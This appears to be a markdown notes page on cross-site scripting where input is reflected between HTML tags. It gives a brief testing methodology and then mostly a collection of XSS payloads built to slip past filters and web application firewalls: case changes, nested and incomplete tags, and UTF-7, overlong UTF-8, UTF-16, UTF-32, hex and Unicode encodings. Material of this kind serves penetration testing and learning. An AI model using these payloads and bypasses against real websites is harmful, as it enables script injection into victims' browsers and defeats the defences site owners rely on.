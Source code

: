 ## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### methodolgy 
- find reflected input between HTML tags
- try to insert a html tag if it is blocked
   - check if it WAF or Web Based Security  
   - try every possible tag you can use the help of [portswigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   - try [Bypass techniques](#bypass)
- make a poc 


### Bypass
i will focus on bypasses that introduce HTML tags


#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with removed chars 
```html
<sCR<script>iPt>alert(1)</SCr</script>IPt>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
#### Bypass ">" using nothing

```html
<svg onload=alert(1)//
```
#### Bypass using UTF-7
```html
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-

=> <img src="1" onerror="alert(1)" />
```

#### Bypass using UTF-8
```html
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9

```

#### Bypass using UTF-16
```html
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00

===  <svg/onload=alert()>

utf-16 encoded then url encoded 
```

#### Bypass using UTF-32
```html
%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E


=>  <svg/onload=alert()>

utf-32 encoded then url encoded 

```

#### Bypass using Hex 
```
3c7376672f6f6e6c6f61643d616c65727428293e

=> <svg/onload=alert()>
```

#### Bypass using Unicode
```html
\u003c\u0073\u0076\u0067\u002f\u006f\u006e\u006c\u006f\u0061\u0064\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0029\u003e

=> <svg/onload=alert()>
```
